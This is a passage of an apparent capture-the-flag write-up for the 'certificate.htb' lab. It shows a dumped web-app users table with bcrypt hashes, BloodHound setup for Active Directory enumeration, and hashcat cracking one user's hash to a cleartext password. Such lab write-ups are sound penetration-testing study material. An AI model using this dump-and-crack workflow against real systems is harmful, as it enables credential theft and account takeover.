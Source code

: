 ```sh
PS C:\xampp\htdocs\certificate.htb> 

Because we can't really easily work with the db from inside the revshell, we just copy the db.php and add a bit more function to it to expose the DB on the site

# Copying the db.php and adding a table dumper
Table: users 
```js
{ "id": "1", "first_name": "Lorra", "last_name": "Armessa", "username": "Lorra.AAA", "email": "lorra.aaa@certificate.htb", "password": "$2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFG", "created_at": "2024-12-23 12:43:10", "role": "teacher", "is_active": "1" } 
{ "id": "6", "first_name": "Sara", "last_name": "Laracrof", "username": "Sara1200", "email": "sara1200@gmail.com", "password": "$2y$04$pgTOAkSnYMQoILmL6MRXLOOfFlZUPR4lAD2kvWZj.i\/dyvXNSqCkK", "created_at": "2024-12-23 12:47:11", "role": "teacher", "is_active": "1" } 
{ "id": "7", "first_name": "John", "last_name": "Wood", "username": "Johney", "email": "johny009@mail.com", "password": "$2y$04$VaUEcSd6p5NnpgwnHyh8zey13zo\/hL7jfQd9U.PGyEW3yqBf.IxRq", "created_at": "2024-12-23 13:18:18", "role": "student", "is_active": "1" } 
{ "id": "8", "first_name": "Havok", "last_name": "Watterson", "username": "havokww", "email": "havokww@hotmail.com", "password": "$2y$04$XSXoFSfcMoS5Zp8ojTeUSOj6ENEun6oWM93mvRQgvaBufba5I5nti", "created_at": "2024-12-24 09:08:04", "role": "teacher", "is_active": "1" } 
{ "id": "9", "first_name": "Steven", "last_name": "Roman", "username": "stev", "email": "steven@yahoo.com", "password": "$2y$04$6FHP.7xTHRGYRI9kRIo7deUHz0LX.vx2ixwv0cOW6TDtRGgOhRFX2", "created_at": "2024-12-24 12:05:05", "role": "student", "is_active": "1" } 
{ "id": "10", "first_name": "Sara", "last_name": "Brawn", "username": "sara.b", "email": "sara.b@certificate.htb", "password": "$2y$04$CgDe\/Thzw\/Em\/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6", "created_at": "2024-12-25 21:31:26", "role": "admin", "is_active": "1" } 
```

## Windows Enumeration

### Start Bloodhound

We'll be using a lot of this as this AD proves to be pretty complex


```python
!mkdir -p ./bloodhounddumps
!docker compose --project-directory ~/.local/build/programs/bloodhound --progress quiet down 
!docker compose --project-directory ~/.local/build/programs/bloodhound --progress quiet up -d
print("Connect to bloodhound now at http://localhost:8080 with username 'admin' password 'bloodhound'")
print("To reset the entire instance, do docker compose down --volumes")
```

    Connect to bloodhound now at http://localhost:8080 with username 'admin' password 'bloodhound'
    To reset the entire instance, do docker compose down --volumes


We find our initial user from the user list. Only two of them have a @certificate.htb email, and only one with a crackable password with hashcat

```sh
 tokugero@desktop  ~/tmp  hashcat -m 3200 sara.b.hash $(wordlists_path)/rockyou.txt --show
$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6:Blink182


```python
domain = target.split(".")[0]
domain_spn = ','.join([f"dc={dc}," for dc in target.split(".")])
initialuser = "sara.b"
initialpassword = "Blink182"
```
